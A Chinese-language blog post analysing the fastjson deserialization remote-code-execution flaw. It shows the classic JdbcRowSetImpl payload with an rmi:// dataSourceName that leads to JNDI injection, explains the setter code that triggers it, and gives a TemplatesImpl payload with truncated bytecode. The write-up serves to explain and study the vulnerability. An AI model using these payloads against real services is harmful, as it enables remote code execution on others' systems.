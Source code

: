 ```yaml
---
title: fastjson RCE 分析
date: 2020-02-01 18:18:25
tags: [java, web]
---
```



## 简介

先看经典 payload
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```



简单来说原因是 fastjson 支持反序列类, 并通过 setter, getter 的方式来为类设置属性, 比如 `dataSourceName` 就会调用 `setDataSourceName("rmi://localhost:1099/Exploit")`, 而有些类在 setter 之中, 可能有些副作用. 比如这个 payload 中的 `com.sun.rowset.JdbcRowSetImpl`.

```java
public void setAutoCommit(boolean autoCommit) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(autoCommit);
    } else {
        this.conn = this.connect();
        this.conn.setAutoCommit(autoCommit);
    }
}

private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            Context ctx = new InitialContext();
            DataSource ds = (DataSource)ctx.lookup(this.getDataSourceName());
            return this.getUsername() != null && !this.getUsername().equals("") ? ds.getConnection(this.getUsername(), this.getPassword()) : ds.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```

在 `setAutoCommit` 的时候会 `ctx.lookup`, 之后就是 JNDI 注入了, 先不管这个, 主要还是了解 fastjson 的问题.  
除了这个 payload 还有一个基于 `TemplatesImpl` 的 payload, 
```json
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQALAoACgAaCgAbABwHAB0IAB4IAB8IACAKABsAIQcAIgoACAAaBwAjAQAGPGluaXQ+AQADKClWAQAEQ29kZQExxxx"],"_name":"a.b","_tfactory":{ },"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}
```
这个 payload 相信如果看过 ysoserial 大概都能猜出来, 不过比较不同的他的触发方法比较奇特, 不是通过 setter 来触发, 相信看完下面的内容就能理解了.
